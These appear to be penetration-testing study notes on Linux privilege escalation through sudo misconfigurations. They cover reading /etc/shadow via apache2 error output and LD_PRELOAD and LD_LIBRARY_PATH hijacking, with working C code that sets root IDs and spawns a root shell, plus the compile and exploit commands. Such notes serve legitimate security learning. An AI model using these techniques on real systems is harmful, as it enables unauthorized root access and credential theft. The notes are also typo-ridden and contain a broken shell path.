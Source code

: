 
sudo -l output: /usr/sbin/apache2
apache read a line of syntax error
sudo apache2 -f /etc/shadow
```
#### Environment Variables
##### Program run through sudo can inherit the environment variables from the user's environment
in sudowrs config file if env_reset option is set sudo will run programs in a new, miniml env
config options are display when running sudo -l

### LD_PRELOAD
is an environment variable can be set to path of shared object (.so) file
When  set, the shared object will be loaded before any others.
By creating a custom .so and creating init() function, we can execute code as soon as teh object is loaded

sudo must be configured to preserve the LD_PRELOAD environment variable using the env_keep option

LD_PRELOAD will no work if the real user id is defferent from the effective user ID

###### case study
```
sudo -l 
  search for env_keep+=LD_PRELOAD 

create c file:

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init(){
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
- complie gcc -fPIC -shared -nostartfiles -o /tmp/preload.so ourfile.c

exploitation: sudo LD_PRELOAD=/tmp/preload.so find
```

##### LD_LIBRARY_PATH: env variable contains a set of directories where shared libraries are searched for first

ldd command can be used to pritn the shared libraries
```
ldd /usr/sbin/apache2
```
by createing a shared library with the same name as one used by a program  and setting LD_library_path to its parent  the program will load our shared_library instead 

###### case study
```
sudo -l : search for env_keep+=LD_LIBRARY_PATH
output:
/usr/sbin/apache2
pic one of so file in ths case: libcrypt.so

ldd /usr/sbin/apache2

create c file
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
  unsetenv("LD_LIBARY_PATH");
  setresuid(0,0,0);
  system("/bin/bash/ -p");
} 

- complie: gcc -o libcrypt.so.1 -shared -fPIC ourfile.c
sudo LD_LIBRARY_PATH=. apache2
```
